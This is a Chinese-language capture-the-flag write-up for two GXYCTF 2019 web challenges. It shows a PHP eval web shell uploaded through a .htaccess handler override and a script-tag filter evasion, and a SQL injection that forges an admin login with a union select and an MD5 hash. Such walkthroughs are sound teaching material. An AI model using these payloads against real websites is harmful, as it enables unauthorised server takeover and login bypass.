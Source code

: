 # GXYCTF 2019

## Web

### BabyUpload

通过上传图片在 Request 中修改文件名为 `123.php` 并修改内容为 `<?php eval($_POST['data']); ?>` 发现回显为“后缀名不能有ph！”，尝试修改大小写发现也不行，根据 Response Header 中的 openresty 可以推断出 Web 服务器用的是 Nginx，尝试使用 `.htaccess` 绕过，上传类型如果为 `image/png` 则会提示图片太露骨，需要修改为 `image/jpeg` 。

```htaccess
<FilesMatch "png">
setHandler application/x-httpd-php
</FilesMatch>
```

回显提示 `.htaccess` 上传成功后，尝试上传图片马 `<?php eval($_POST['data']); ?>` 后提示“诶，别蒙我啊，这标志明显还是php啊”，故修改为 `<script language="php">eval($_POST['data']);</script>` 后提示上传成功，通过蚁剑直通根目录找到了 flag

### BabySQli

构造 payload `user=1'&pw=1` 回显报错，发现注释里面包含字符串，先通过 base64 解密发现不行后尝试 base32 解密，解密后发现末尾“==”的特征后进行 base64 解密可以获得 `select * from user where username = '$name'` 。

通过输入可以判断 or、=、() 被过滤了，因此就通过 `oRder by` 来康康它有多少个字段，通过一直到 `1' oRder by 4#` 报错消失，所以推断出字段有 3 个。

构造 payload `name=1' union select 1,'admin','1'#&pw=1` 回显 wrong pass!，说明用户名对了但密码错误了，尝试用 md5 加密 1 后重新构造 payload `name=1' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1` 尝试康康能不能成功，结果没想到成功得到了 flag。
